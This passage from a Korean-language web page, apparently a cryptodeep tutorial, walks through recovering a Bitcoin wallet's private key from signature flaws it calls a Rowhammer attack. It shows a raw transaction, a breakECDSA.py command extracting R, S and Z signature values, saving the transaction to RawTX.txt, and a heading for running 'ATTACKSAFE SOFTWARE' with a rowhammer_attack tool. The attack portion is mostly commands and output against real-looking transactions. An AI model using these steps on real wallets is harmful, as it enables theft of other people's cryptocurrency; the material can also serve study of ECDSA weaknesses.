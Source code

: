 
<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-140-1024x143.png" alt="서명 오류를 사용하여 Bitcoin 지갑에 대한 개인 키를 얻는 방법(Bitcoin에 대한 Rowhammer 공격)" class="wp-image-1242"/></figure>



<pre class="wp-block-code"><code>RawTX = 0100000001a11dd54f81e27ca14eaf9bb4c94e6b91398130bdb09a71fa2dccf994636de08a1d0000006b483045022100f6a4cf18e2806d4e729f7a71db5b66255499b8d25f0ee598bdf9b7b8183e4386022048c1b699c4ac92dc3add691935b6e561d7e0ea1d7053af298c09c3e3f23e7f8f012102083a0f1f4d81e74cb2903feccbaf82f7cb5cbeecafd178caefa2fa10d2dfe54dffffffff0162020000000000001976a914154813f71552c59487efa3b16d62bfb009dc5f1e88ac00000000
</code></pre>



<h2>이제 모든 취약한 트랜잭션에서 모든 R, S, Z 값을 가져와야 합니다.</h2>



<p>breakECDSA.py 스크립트를 사용해봅시다.</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 0100000001a11dd54f81e27ca14eaf9bb4c94e6b91398130bdb09a71fa2dccf994636de08a1d0000006b483045022100f6a4cf18e2806d4e729f7a71db5b66255499b8d25f0ee598bdf9b7b8183e4386022048c1b699c4ac92dc3add691935b6e561d7e0ea1d7053af298c09c3e3f23e7f8f012102083a0f1f4d81e74cb2903feccbaf82f7cb5cbeecafd178caefa2fa10d2dfe54dffffffff0162020000000000001976a914154813f71552c59487efa3b16d62bfb009dc5f1e88ac00000000
</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-144-1024x245.png" alt="서명 오류를 사용하여 Bitcoin 지갑에 대한 개인 키를 얻는 방법(Bitcoin에 대한 Rowhammer 공격)" class="wp-image-1250"/></figure>



<pre class="wp-block-code"><code>R = 0xf6a4cf18e2806d4e729f7a71db5b66255499b8d25f0ee598bdf9b7b8183e4386
S = 0x48c1b699c4ac92dc3add691935b6e561d7e0ea1d7053af298c09c3e3f23e7f8f
Z = 0x51e6147848d2e81e2b6b71a5f2b29be5121752b88cc1d5e1392c001b04b4c2d9</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>취약한 ECDSA 서명 트랜잭션에서 비밀 키를 얻기 위해 데이터를&nbsp;<code>RawTX</code>텍스트 문서에 추가하고 파일로 저장해 봅시다.<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>0100000001a11dd54f81e27ca14eaf9bb4c94e6b91398130bdb09a71fa2dccf994636de08a1d0000006b483045022100f6a4cf18e2806d4e729f7a71db5b66255499b8d25f0ee598bdf9b7b8183e4386022048c1b699c4ac92dc3add691935b6e561d7e0ea1d7053af298c09c3e3f23e7f8f012102083a0f1f4d81e74cb2903feccbaf82f7cb5cbeecafd178caefa2fa10d2dfe54dffffffff0162020000000000001976a914154813f71552c59487efa3b16d62bfb009dc5f1e88ac00000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool rowhammer_attack</code>소프트웨어를 사용하여&nbsp;실행<code>“ATTACKSAFE SOFTWARE”</code></h2>

